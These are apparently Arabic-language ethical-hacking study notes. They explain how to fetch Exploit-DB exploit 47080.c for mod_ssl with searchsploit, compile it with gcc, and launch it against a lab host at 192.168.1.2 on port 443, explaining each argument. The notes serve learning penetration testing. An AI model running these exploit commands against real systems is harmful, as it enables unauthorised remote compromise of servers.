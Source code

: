 ![](images/Ethical_Hacking/5.png)

- ننزل المكتبة دي ولو في `Error`  نبحث ونحله ====> Chat GPT
	
- 
> [!code] gcc run in linux
> gcc 47080.c -o modssl -lcrypto     

- كومبلير  الملف `47080.c` الملف الي نزلناه
- `-o` modssl ده بيحدد اسم الملف الناتج بعد الترجمة.


> [!bug] Atack
>  ./modssl 0x6b 192.168.1.2 443 -c 45

`modssl`  ---------> ملف الثغرة بعد ما نزل واتعمله كومبيلر بالاسم دا  
 `./modssl` ------->  ` 47080.c`   تشغيل السكريبت بعد ما كمبّلته من 
`0x6b`  ------------> في تعيمات الملف Version  ده معرف الشيل كود بتاعت ال 
`192.168.1.2`-----> ip الجهاز الي رايحله
`443` --------------> Port Service  == HTTPS
`-c 45` ------------> (connections) ده غالبًا عدد الاتصالات المتزامنة 


> [!NOTE] searchsploit
> البحث في **Metasploit** اوفلاين (باستخدام `searchsploit`  طريقة تاني للبحث عن الثغرة وتنزيل ملفها 


> [!code] searchsploit
> searchsploit mod_ssl 2.8.4

ده هيعرض لك كل الإكسبلويتات المتاحة محليًا في Kali ضمن قاعدة بيانات `Exploit-DB`


> [!code] searchsploit 
> searchsploit -m  ---Exploit Path or ID----
> searchsploit -m  ----  47080.c ----
